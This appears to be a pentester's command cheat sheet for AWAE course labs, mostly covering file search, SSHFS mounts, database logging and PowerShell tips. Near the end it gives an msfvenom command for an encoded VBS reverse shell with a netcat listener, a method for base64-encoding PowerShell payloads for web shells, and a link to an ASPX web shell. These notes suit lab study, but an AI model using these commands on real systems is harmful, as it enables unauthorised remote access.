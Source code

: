 
Press `Ctrl+H` to show/hide hidden files in the file browser!

# Find files

Recursive, with file extension:

```bash
find . -print0 -type f -name '*.php'
```

Find and execute a command

```bash
find . -type f -name '.htaccess' -exec cat '{}' ';'
```

Recursive, with regex content match:

```bash
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color
```

## Copy files from remote server

Assuming we have SSHFS or a similar mount:

```bash
find . -print0 -type f -name '*.php' -exec cp --parents '{}' /home/kali/Desktop/awae/labs/atmail/app/ ';' 
```

## Remote edit files

```bash
gedit ftp://atutor/var/www/html/ATutor/search.php
```

## SSH File System

Mount a file system using SSHFS:

```bash
sshfs -oKexAlgorithms=+diffie-hellman-group1-sha1 atmail@192.168.137.106 /mnt/atmail
```

Unmount it again using:

```bash
fusermount -u /mnt/atmail
```

## Samba File Share

Start a file share server:
```
sudo impacket-smbserver awae /home/kali/awae
```

## Connect to...

MySQL

```bash
mysql servername -u root -p
```

## Enable logging...

Enable logging in `/etc/mysql/my.cnf`

```ini
general_log = 1
general_log_file = /var/log/mysql/mysql.log
```

Enable logging in `postgresql.conf`.  Restart the server (or process that embeds a PGSQL DB) for the change to take effect.

```ini
log_statement='all'
```

Logs should be going to the `pgsql_log` subfolder.

## Enable debug messages

PHP5

```ini
display_errors = On
```

## Encoding

Convert a file to/from hex:

```sh
xxd file.bin | cut -d " " -f 2-9 | sed 's/ //g' | tr -d '\n'
```

## Web Server

```bash
python -m SimpleHTTPServer 9090
```

## Postfix

Update SMTP transport configuration as needed

```bash
sudo nano /etc/postfix/transport
```
```/etc/postfix/transport
offsec.local smtp:[129.168.121.106]:587
```

```bash
sudo postmap transport
sudo systemctl restart postfix.service
```

## Powershell

Sort directory listings and take most recent

```ps
dir | sort LastWriteTime | Select -last 1
```

Tail a log file and filter output for a certain line pattern

```ps
Get-Content my.log -Wait -Tail 1 | Select-String -Pattern "error" -Context 0,2
```

View running processes

```ps
tasklist | findstr /i calc
```

Create base64 encoded payloads of PS1 scripts to upload via web shells or similar methods where special characters can cause issues:

```sh
iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
```
```ps1
powershell.exe -EncodedCommand $Base64Data
```


## VBS

Use `:` as a command separator to run multiple commands on one line.
Use `_` as a continuation character to split a single command over multiple lines.

Run scripts using `cscript.exe myscript.vbs`

## msfvenom

Create TCP reverse shell in VBS:

```
msfvenom -a x86 --platform windows -p windows/reverse_shell_tcp LHOST=127.0.0.1 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
```
nc -lvp 4444
```

## Web Shells

_When serving web shells from our own server, make sure to set permissions so they aren't executable on our server, and thus that we don't web-shell ourselves!  E.g. `chmod 644`._

[cmdasp.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)